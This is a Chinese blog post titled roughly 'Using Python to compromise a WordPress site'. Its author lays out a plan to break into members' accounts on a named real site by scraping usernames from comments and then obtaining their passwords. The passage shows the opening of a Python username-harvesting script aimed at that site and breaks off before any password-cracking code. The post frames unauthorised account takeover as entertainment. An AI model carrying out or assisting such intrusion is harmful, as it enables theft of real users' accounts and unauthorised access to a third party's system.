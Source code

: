```yaml
---
title: 用Python攻陷某WP网站
tags:
  - python

date: 2017-12-11 18:36:28


categories:
 - python 

---
```

 >今天又来带大家出来搞事情，这篇文章可是稳稳的福利篇啊！Python真是一大利器， 就是生活中我的左右手，隐藏了这么久的时间，可不是什么没干，项目做到一半，烦躁的不行，就想找些其他事情做做。

正好无意间碰见一个WordPress搭建的[福利网站](sstushu.net/)，里面的资源可真是丰富啊！但是最丰富的资源还是要会员才能够接触到，看了看这个登录的界面，发现可以搞事情。
*ps：文章后面留下了部分的福利，不满足的老司机私聊~你懂得*

>![](http://upload-images.jianshu.io/upload_images/6967995-5363450eeab3f0c1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 执行计划

1.寻找切入点
2.提取用户名
3.获取密码
4.发送邮件
5.删除所以违法信息

### 必备准备

写python代码

### 开工

首先 立据双手离开键盘以示清白，看到这个登录的界面，就知道可以搞事情，没有验证码，没有验证码机制。我就立马注册了一个帐号

注册ing

注册完成之后，登录，浏览网页，浏览网页，还在浏览网页

额……

不对，我是来搞事情的，不是来浏览网页的，发现了其中的资源确实丰富，但要想浏览下面的内容呢！还得要冲个会员才能办。下面的内容就是获取资源与得到会员
###寻找帐号
首先先观测，大概网页的内容就分为三部分：**‘资源’**，**‘注册登录’**， **‘个人信息’**。

要想登录别人的帐号，就得先得到别人的帐号密码，只能说这个网站是个小站，里面的各种安全都没有考虑到。也可能是站长花钱买的。只能说买的冤啊！在热门的帖子下面都有好多用户评论，而评论的用户名就是他们的帐号，这个网站并没有增加用户名，这样得到他们的帐号也就容易的多了。我就写个脚本，爬下网站的所有的信息，找出所有的用户名


````
#获取全站的用户名
import re
import requests
def gethtml(url):                #获取html
    headers = {
      'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
      'Referer': 'http://sstushu.net/%e7%99%bb%e5%bd%95?loggedout=true'
    }
    html = requests.get(url, headers=headers)
    return html.text

for i in range(2,39):
    if i == 1:
        url = 'http:/sstushu.net/'             #第一页的内容
````